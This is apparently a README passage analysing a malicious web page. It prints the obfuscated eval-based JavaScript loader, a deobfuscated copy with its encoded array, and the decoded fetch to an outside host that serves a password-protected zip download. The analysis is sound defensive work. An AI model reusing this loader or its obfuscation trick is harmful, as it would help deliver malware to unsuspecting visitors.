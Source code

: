 ```html
for(czzgv=0;czzgv<gxcei[cvzkg];czzgv++){
	var odygqq = "String";
	var unyrua = "fromCharCode";
	tvswn += bcddet[odygqq][unyrua](gxcei[czzgv]+rtpbo);
}
var bpvsum = "eval";
bcddet[bpvsum](tvswn);

    </script>
  </head>
  <body></body>
</html>
```
<br> You can also view the file `web.html` in this repo.
<br> The HTML code is mostly encoded in the array `gxcei`. This trick is often used to encode the source code that creator does not want clients to view. After cleaning and decoding, it becomes:
```html
<!DOCTYPE html>
<html translate="no" dir="ltr">
<head>
  <meta charset="utf-8">
  <title></title>
  <script type="text/javascript">
  var gxcei = [95,94,109,92,97,33,27,97,109,109,105,108,51,40,40,104,100,98,102,39,102,94,40,91,101,104,91,39,105,97,105,56,109,98,102,94,54,27,36,61,90,109,94,39,103,104,112,33,34,34,39,109,97,94,103,33,95,110,103,92,109,98,104,103,33,107,94,108,105,104,103,108,94,34,116,6,3,25,25,107,94,109,110,107,103,25,107,94,108,105,104,103,108,94,39,109,94,113,109,33,34,52,6,3,118,34,39,109,97,94,103,33,95,110,103,92,109,98,104,103,33,93,90,109,90,34,116,6,3,25,25,93,104,92,110,102,94,103,109,39,112,107,98,109,94,33,93,90,109,90,34,52,6,3,118,34,52];
  var tvswn = "";
  for(counter=0;counter<gxcei.length;counter++){
        tvswn += this.String.fromCharCode(gxcei[counter]+7);
  }
  this.eval(tvswn); // Execute the code

  </script>
</head>
<body>
</body>
</html>
```
<br> Please note that I have added some comments in the code.
<br>The array is decoded as the following Javascript code:
```javascript
fetch("https://okim.me/blob.php?time="+Date.now())
function(response)
{
	return response.text();
}
function(data)
{
	document.write(data);
};
```
<br> So it actually fetch another page, in this case `https://okim.me/blob.php?time=` followed by the current time. The page downloads a zip file into your computer.
<br>![The downloader](https://user-images.githubusercontent.com/68118236/145681336-c1cd118a-ca60-4af1-abd1-189b239f2935.png)
<br> Again, Vietnamese text said "758 download counts" and "The password is 3865". They actually use Google Translate API to translate this, the original things was in English.
<br> You can get the source of it if you want to, see `web` folder in this repo.
<br> <b>Again, some notes: The page sometimes might be blank when Cloudflare block the access of the client (I don't know why)</b>

